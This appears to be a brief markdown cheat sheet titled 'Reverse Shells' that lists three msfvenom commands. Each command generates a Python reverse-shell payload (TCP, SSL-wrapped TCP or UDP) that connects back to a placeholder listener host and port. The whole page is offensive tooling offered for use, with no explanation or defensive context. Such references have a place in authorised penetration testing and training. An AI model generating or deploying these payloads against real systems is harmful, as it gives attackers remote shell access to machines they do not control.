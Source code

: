 # Reverse Shells

`$ msfvenom -p python/shell_reverse_tcp lhost=<IP> lport=<PORT> -o shell.py`

`$ msfvenom -p python/shell_reverse_tcp_ssl lhost=<IP> lport=<PORT> -o shell.py`

`$ msfvenom -p python/shell_reverse_udp lhost=<IP> lport=<PORT> -o shell.py`